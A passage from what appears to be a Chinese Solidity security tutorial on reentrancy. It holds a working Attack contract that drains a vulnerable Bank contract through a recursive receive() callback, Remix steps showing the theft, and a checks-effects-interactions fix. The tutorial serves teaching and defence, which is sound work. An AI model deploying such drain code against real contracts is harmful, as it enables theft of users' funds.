 ```solidity
contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }
    
    // 回调函数，用于重入攻击Bank合约，反复的调用目标的 withdraw 函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```
# 3 Remix演示

1. 部署`Bank`合约，调用`deposit()`函数，转入`20 ETH`。
2. 切换到攻击者钱包，部署`Attack`合约。
3. 调用`Atack`合约的`attack()`函数发动攻击，调用时需转账`1 ETH`。
4. 调用`Bank`合约的`getBalance()`函数，发现余额已被提空。
5. 调用`Attack`合约的`getBalance()`函数，可以看到余额变为`21 ETH`，重入攻击成功。

# 4 预防办法

目前主要有两种办法来预防可能的重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

## 4.1 检查-影响-交互模式

检查-影响-交互模式强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。如果我们将`Bank`合约`withdraw()`函数中的更新余额提前到转账`ETH`之前，就可以修复漏洞：

```solidity 
function withdraw() external {
    uint256 balance = balanceOf[msg.sender];
    require(balance > 0, "Insufficient balance");
    // 检查-效果-交互模式（checks-effect-interaction）：先更新余额变化，再发送ETH
    // 重入攻击的时候，balanceOf[msg.sender]已经被更新为0了，不能通过上面的检查。
    balanceOf[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to send Ether");
}
```
